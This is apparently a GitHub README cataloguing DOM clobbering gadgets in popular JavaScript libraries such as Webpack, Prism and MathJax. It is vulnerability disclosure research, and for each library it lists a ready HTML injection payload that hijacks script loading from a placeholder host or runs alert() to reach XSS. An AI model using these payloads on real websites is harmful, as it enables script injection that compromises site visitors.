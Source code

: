 # DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | Status | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A |N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K |N/A | ```<img name=currentScript label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | N/A | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A |5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk | Patched | N/A |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K |v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | Reported | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 10.1K |2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K |3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | N/A | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K |v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | N/A | N/A |
| [polyfills/webcomponentsjs](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K |2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A | N/A |
| [Prism](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/prism.md) | 12.2k |1.29.0 | ```<img name=currentScript src="https://xxx.xxx.xxx/a.js"></img>``` | XSS | TheHulk | N/A | N/A |
| [rspack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/rspack.md) | 8.6K |v1.0.0-rc.0 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | N/A | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K |2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | N/A | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K |5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | Patched | CVE-2024-43788 |
